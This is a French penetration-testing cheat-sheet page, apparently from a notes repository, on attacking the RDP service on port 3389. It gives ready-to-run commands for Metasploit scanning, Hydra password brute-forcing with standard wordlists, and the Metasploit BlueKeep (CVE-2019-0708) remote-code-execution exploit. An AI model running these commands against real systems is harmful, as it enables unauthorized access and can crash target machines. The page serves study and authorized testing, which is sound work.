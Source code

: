 # 🖥️ Énumération RDP

[← Retour à la table des matières](../README.md)

## Port par défaut : 3389

## Détection RDP
```bash
# Metasploit scanner
use auxiliary/scanner/rdp/rdp_scanner
set RHOSTS targetIP
set RPORT 3389
run
```

## Bruteforce RDP → [📖 Guide Hydra](../06-tools/hydra.md)
```bash
# Hydra (réduire la vitesse pour éviter de shutdown le service)
hydra -L /usr/share/metasploit-framework/data/wordlists/common_users.txt -P /usr/share/metasploit-framework/data/wordlists/unix_passwords.txt rdp://targetIP -s 3389 -t 1 -V
```

## Connexion RDP
```bash
# xfreerdp (Linux)
xfreerdp /u:username /p:password /v:targetIP:3389

# rdesktop
rdesktop -u username -p password targetIP:3389
```

## Exploit BlueKeep (CVE-2019-0708)

### Scanner BlueKeep
```bash
# Metasploit scanner
use auxiliary/scanner/rdp/cve_2019_0708_bluekeep
set RHOSTS targetIP
run
```

### Exploit BlueKeep (DANGEREUX - peut faire crash la cible)
```bash
# Metasploit exploit (Windows 64-bit uniquement)
use exploit/windows/rdp/cve_2019_0708_bluekeep_rce
set RHOSTS targetIP
set TARGET [choisir le bon target]
run
```

⚠️ **Attention** : L'exploit BlueKeep est instable et peut causer un crash du système cible.